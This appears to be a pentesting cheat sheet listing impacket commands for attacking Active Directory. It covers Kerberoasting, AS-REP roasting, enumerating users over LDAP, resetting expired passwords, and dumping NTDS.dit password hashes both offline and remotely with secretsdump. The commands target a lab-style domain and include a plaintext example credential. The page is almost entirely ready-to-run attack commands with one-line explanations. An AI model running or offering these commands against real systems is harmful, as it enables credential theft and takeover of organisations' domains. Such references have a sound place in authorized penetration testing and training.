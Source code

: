 Thanks to the [impacket](https://github.com/SecureAuthCorp/impacket) toolset, exploiting misconfigurations in AD environments is made easier.

### GetUserSPNs.py

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -request -dc-ip 10.10.10.123 burmat.local/xsvc:S3cur3PW123
```
{% endcode %}

### GetNPUsers.py

Attempt to get TGTs for users that have `UF_DONT_REQUIRE_PREAUTH` set:

{% code overflow="wrap" %}
```bash
GetNPUsers.py -request -no-pass -dc-ip 10.10.10.123 burmat.local/ -usersfile users.txt
```
{% endcode %}

### secretsdump.py

Attack a local offline copy of NTDS.dit:

{% code overflow="wrap" %}
```bash
secretsdump.py -ntds /root/l00t/ntds.dit -system /root/l00t/systemhive LOCAL
```
{% endcode %}

Or you can attack a system remotely:

{% code overflow="wrap" %}
```bash
secretsdump.py -just-dc-ntlm burmat.local/administrator@10.10.10.123
```
{% endcode %}

### GetADUsers.py

Leverage this script to grab usernames via LDAP

{% code overflow="wrap" %}
```bash
GetADUsers.py -all -no-pass -dc-ip 10.10.10.123 burmat.local/ | cut -d " " -f 1 | grep -Ev 'Name|Impacket|\-\-|\[' >> users.txt
```
{% endcode %}

### smbpasswd.py

Reset a password if you have the credentials but it is expired. Useful if you have a hash and no pw, too.

{% code overflow="wrap" %}
```bash
smbpasswd -r 10.0.0.12 -U 'burmat'
```
{% endcode %}
